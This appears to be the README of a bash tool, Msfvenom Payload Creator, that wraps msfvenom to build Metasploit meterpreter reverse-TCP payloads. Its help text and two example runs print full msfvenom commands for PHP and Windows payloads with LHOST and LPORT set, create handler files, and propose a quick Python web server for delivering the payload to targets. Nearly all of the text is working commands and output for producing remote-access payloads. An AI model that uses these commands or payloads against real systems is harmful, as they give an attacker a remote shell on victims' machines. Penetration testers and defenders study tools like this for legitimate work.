 ![Metasploit Payload Creator (MPC)](https://i.imgur.com/KjlZjd9.png)

- - -

## Help

``` bash
root@kali:/var/www# bash /root/mpc.sh
 [*] Msfvenom Payload Creator (MPC)

 [i] Missing type

 [i] /root/mpc.sh <TYPE> (<IP>) (<PORT>)
 [i] TYPE:
 [i]   + ASP (meterpreter)
 [i]   + Bash (meterpreter)
 [i]   + Linux (meterpreter)
 [i]   + PHP (meterpreter)
 [i]   + Python (meterpreter)
 [i]   + Windows (meterpreter)
 [i] IP will default to IP selection menu
 [i] PORT will default to 443
root@kali:/var/www#
```

## Example \#1 (PHP - Automated)

```bash
root@kali:/var/www# bash /root/mpc.sh php 127.0.0.1
 [*] Msfvenom Payload Creator (MPC)
 [i]   IP: 127.0.0.1
 [i] PORT: 443
 [i] TYPE: PHP (php/meterpreter_reverse_tcp)
 [i]  CMD: msfvenom --payload php/meterpreter_reverse_tcp --format raw --platform php --arch php LHOST=127.0.0.1 LPORT=443 -o /var/www/php_meterpreter.php
No encoder or badchars specified, outputting raw payload
Saved as: /var/www/php_meterpreter.php
 [i] PHP meterpreter created as '/var/www/php_meterpreter.php'
 [i] MSF handler file create as 'php_meterpreter.rc (msfconsole -q -r /var/www/php_meterpreter.rc)'
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:/var/www#
```

## Example \#2 (Windows - Interactive)

```bash
root@kali:/var/www# bash /root/mpc.sh exe
 [*] Msfvenom Payload Creator (MPC)

 [i] Use which IP address?:
 [i]   1.) 192.168.103.136
 [i]   2.) 192.168.155.175
 [i]   3.) 127.0.0.1
 [?] Select 1-3: 2

 [i]   IP: 192.168.155.175
 [i] PORT: 443
 [i] TYPE: Windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom --payload windows/meterpreter/reverse_tcp --format exe --platform windows --arch x86 LHOST=192.168.155.175 LPORT=443 -o /var/www/windows_meterpreter.exe
No encoder or badchars specified, outputting raw payload
Saved as: /var/www/windows_meterpreter.exe
 [i] Windows meterpreter created as '/var/www/windows_meterpreter.exe'
 [i] MSF handler file create as 'windows_meterpreter.rc (msfconsole -q -r /var/www/windows_meterpreter.rc)'
 [?] Quick web server?   python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:/var/www#
```

## To-Do

* Display interface name next to IP address
* Display file stats (e.g. file, size, md5/sha1) _Commands are in, just commented out._
* Cleaner command line arguments
